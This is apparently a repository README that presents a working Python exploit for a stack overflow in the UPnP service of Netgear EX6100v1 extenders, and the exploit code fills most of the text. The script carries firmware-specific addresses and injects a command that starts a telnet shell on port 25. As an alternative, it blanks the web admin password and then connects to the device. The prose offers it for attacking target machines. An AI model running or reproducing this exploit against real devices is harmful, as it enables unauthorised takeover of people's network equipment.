 # Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
import os
choice=0
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request,choice
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	if(choice==1):
		os.system("telnet %s 25"%(target_ip))
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
example
![image-20220420111910096](./img/image-20220420170333428.png)

